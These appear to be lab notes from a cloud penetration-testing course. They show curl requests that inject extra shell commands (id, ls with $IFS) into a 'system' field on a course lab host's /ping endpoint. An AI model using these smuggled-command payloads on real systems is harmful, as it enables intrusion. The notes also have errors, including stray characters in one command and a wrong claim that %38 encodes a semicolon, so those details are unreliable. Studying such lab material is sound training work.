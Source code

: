 **Specifies a custom request method to use when communicating with the HTTP server**
```python3
curl -X POST http://invoice.awesome-sparrow.sec588.cloud/ping --data 'system=127.0.0.1'e[ew[edx
```
>


**Test for command injection by adding another command such as ;**
```python3
curl -X POST http://invoice.awesome-sparrow.sec588.cloud/ping --data-raw 'system=127.0.0.1%3Bid'
```
>
    --data-raw :  Used to send raw information with no filtering in cURL. Required to send the embedded commands
    %38        :  URL encoded ;


**Explore the filesystem**
```python3
curl -X POST http://invoice.awesome-sparrow.sec588.cloud/ping --data-raw 'system=127.0.0.1%3Bls%24IFS-la'
```
```
%24: URL Encoded $
IFS: IFS (In this case it would be interpreted as $IFS) stands for Internal Field Separator. In our case that would be a `space`
```
  
